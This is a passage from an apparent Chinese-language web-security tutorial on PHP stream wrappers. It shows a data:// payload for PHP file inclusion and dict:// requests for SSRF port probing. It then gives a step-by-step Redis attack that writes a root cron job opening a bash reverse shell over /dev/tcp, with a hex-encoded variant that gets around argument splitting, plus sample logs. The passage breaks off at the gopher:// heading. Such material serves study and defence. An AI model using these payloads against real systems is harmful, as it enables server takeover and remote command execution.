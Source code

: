 此协议不受allow_url_fopen,allow_url_include配置影响

data://协议

需要allow_url_fopen,allow_url_include均为on

这是一个输入流执行的协议，它可以向服务器输入数据，而服务器也会执行。常用代码如下：

[http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>](http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>)

text/plain，表示的是文本

text/plain;base64, 若纯文本没用可用base64编码

dict://协议

与gopher协议一般都出现在ssrf协议中，用来探测端口的指纹信息。同时也可以用它来代替gopher协议进行ssrf攻击。

常见用法：

探测端口指纹

192.168.0.0/?url=dict://192.168.0.0:6379

以上为探测6379（redis）端口的开发

反弹shell

1、开启反弹shell的监听

nc -l 9999

2、依次执行下面的命令

curl dict://192.168.0.119:6379/set:mars:"\n\n * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n\n"

curl dict://192.168.0.119:6379/config:set:dir:/etc/

curl dict://192.168.0.119:6379/config:set:dbfilename:crontab

curl dict://192.168.0.119:6379/bgsave*

执行时，反弹shell的命令，也就是set:mars:xxx，会因为特殊字符的原因无法写入到目标的redis中，被被空格所分割导致出现一下情况：

1584705879.520734 [0 172.17.0.1:44488] “set” “mars” “\n\n*” “" "” “" "” “root” “bash” “-i” “>&” “/dev/tcp/192.168.0.119/6789” "0>&1\n\n"

我们会发现，命令被分割了，看表象感觉像是被空格分割了。此时将反弹shell的命令进行十六进制转换，变为：

curl dict://192.168.0.119:6379/set:mars:"\x0a\x2a\x20\x2a\x20\x2a\x20\x2a\x20\x2a\x20\x72\x6f\x6f\x74\x20\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x39\x32\x2e\x31\x36\x38\x2e\x30\x2e\x31\x31\x39\x2f\x39\x39\x39\x39\x20\x30\x3e\x26\x31\x0a"

以上单引号使用反斜杠\进行转移，其他数据进行十六进制编码，执行结果如下，可以发现没有错误了

1584706087.980465 [0 172.17.0.1:44490] “set” “mars” "\n * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n"*

剩下的修改路径和文件名称的请求，正常执行即可

gopher://协议
